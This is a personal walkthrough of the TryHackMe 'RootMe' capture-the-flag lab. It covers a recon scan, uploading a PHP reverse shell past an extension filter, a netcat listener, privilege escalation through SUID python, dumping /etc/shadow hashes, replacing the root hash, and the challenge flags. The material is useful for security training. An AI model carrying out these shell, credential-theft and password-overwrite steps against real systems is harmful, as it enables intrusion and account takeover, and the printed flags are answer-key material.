 ===RootMe	Flutter July 27 2021===

IP 10.10.152.22

> export IP=10.10.152.22
	
MYIP 10.10.106.37

> export MYIP=10.10.106.37


# Recon #


----------------
	Scanning
----------------

$ nmap -sV -sC -T5 -oN nmap_initial $IP

	'''
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
		http-cookie-flags: 
			/: 
				PHPSESSID: 
					httponly flag not set
		http-server-header: Apache/2.4.29 (Ubuntu)
		http-title: HackIT - Home
	'''
	
> running SSH

> using PHP

$ gobuster dir http://$IP -w directory-list-2.3-medium.txt -o gobuster_80

	'''
	/uploads (Status: 301)
	/css (Status: 301)
	/js (Status: 301)
	/panel (Status: 301)
	/server-status (Status: 403)
	'''

---------------------
	Visiting Site
---------------------

- not much value on home

- /panel dir
	> file upload page
    > trying PHP file
    
    	PHP não é permitido!

    
    > trying .php3, php4, php5, phtml

    	O arquivo foi upado com sucesso!


# Intrusion #

- uploading php-reverse-shell.php5 to /panel
	> courtesy of pentestmonkey <3

$ nc -lvnp 4443

- /uploads dir
	> running php-reverse-shell.php5

### Session caught on nc ###

$ id

	'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

- Stabalisation

		'''
		python -c 'import pty;pty.spawn("/bin/bash")'
		bash-4.4$ 
		CTRL Z
		stty raw -echo
		fg
		export TERM=xterm
		'''

bash-4.4$ ls -l /etc/passwd

> world readable

bash-4.4$ cat /etc/passwd
	
> Users

		root
		rootme
		test


# PrivEsc #

bash-4.4$ find / -type f -user root -perm -u=s 2>/dev/null

	'''
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/lib/snapd/snap-confine
	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/openssh/ssh-keysign
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/bin/traceroute6.iputils
	/usr/bin/newuidmap
	/usr/bin/newgidmap
	/usr/bin/chsh
	/usr/bin/python
	/usr/bin/chfn
	/usr/bin/gpasswd
	/usr/bin/sudo
	/usr/bin/newgrp
	/usr/bin/passwd
	/usr/bin/pkexec
	/snap/core/8268/bin/mount
	/snap/core/8268/bin/ping
	/snap/core/8268/bin/ping6
	/snap/core/8268/bin/su
	/snap/core/8268/bin/umount
	/snap/core/8268/usr/bin/chfn
	/snap/core/8268/usr/bin/chsh
	/snap/core/8268/usr/bin/gpasswd
	/snap/core/8268/usr/bin/newgrp
	/snap/core/8268/usr/bin/passwd
	/snap/core/8268/usr/bin/sudo
	/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/8268/usr/lib/openssh/ssh-keysign
	/snap/core/8268/usr/lib/snapd/snap-confine
	/snap/core/8268/usr/sbin/pppd
	/snap/core/9665/bin/mount
	/snap/core/9665/bin/ping
	/snap/core/9665/bin/ping6
	/snap/core/9665/bin/su
	/snap/core/9665/bin/umount
	/snap/core/9665/usr/bin/chfn
	/snap/core/9665/usr/bin/chsh
	/snap/core/9665/usr/bin/gpasswd
	/snap/core/9665/usr/bin/newgrp
	/snap/core/9665/usr/bin/passwd
	/snap/core/9665/usr/bin/sudo
	/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/9665/usr/lib/openssh/ssh-keysign
	/snap/core/9665/usr/lib/snapd/snap-confine
	/snap/core/9665/usr/sbin/pppd
	/bin/mount
	/bin/su
	/bin/fusermount
	/bin/ping
	/bin/umount
	'''

> /usr/bin/python looks promising

bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

\# id

	'uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)'

	> root gained

\# find / -type f -name user.txt
	> /var/www/user.txt

\# cat /var/www/user.txt
	
*Flag Found*<details>
<summary>Spoiler</summary>
	
> /var/www/user.txt:

	THM{y0u_g0t_a_sh3ll}

</details>


\# find / -type f -name root.txt
	>/root/root.txt

\# cat /root/root.txt

*Flag Found*<details>
	<summary>Spoiler</summary>
	
> /root/root.txt:

	THM{pr1v1l3g3_3sc4l4t10n}

</details>


# Okay, we've gotten all the flags for the challenge... but I'm not quite done #

Let's get those user hashes

\# cat /etc/shadow
	
	'''
	root:$6$5osB44J2$24WV3zAR1FTqEq3f2kSqrigUgyDmKucU8rwHvbOJWxIoWSlHbVHV1Ug1eOHqidieZWDU3Y5V3cimChun2JYNw1:18478:0:99999:7:::

	rootme:$6$jzeDDmrVeqMMEQqv$j8jwWy951YwWBJWzQNn.A45I.8H06/QOv4qocX.hNDdT42NytyavSHxlxoEh0ek2OS4NX27tuuZRTJuHPSWCp.:18478:0:99999:7:::

	test:$6$vXOyvOWZ$UpIjnJq/KuKmKHezW/pEM.nrI6QuqhWWlv/fUmLvJI1YG7nju2vpP3vg1Q0SSf5FCk8058WD5Rc3XXPMRlqHb0:18478:0:99999:7:::
	'''

> eh, we can crack them another time for fun, not necessary

$ mkpasswd -m sha-512 FlutterWasHere > newpass

	'$6$n0dYLiOE/DZ$6PzFKyQpxCEGIf3ZFHUITMYmMuVH6vYC7QECwuXLJJMLMRKOr5Tf.pEJQMfP22BE9ouZ.A5l1d8c9ctJZ6un3.'

\# nano /etc/shadow
	
> replace hash with our own

\# exit

bash-4.4$ su root

	Password: FlutterWasHere

root@rootme:/# id

	'uid=0(root) gid=0(root) groups=0(root)'

Mwahaha root is all ours now, and the shell is more responsive

### Getting rid of the SUID ###

root@rootme:/# chmod 755 /usr/bin/python

root@rootme:/# ls -l /usr/bin/python

	'-rwxr-xr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python'
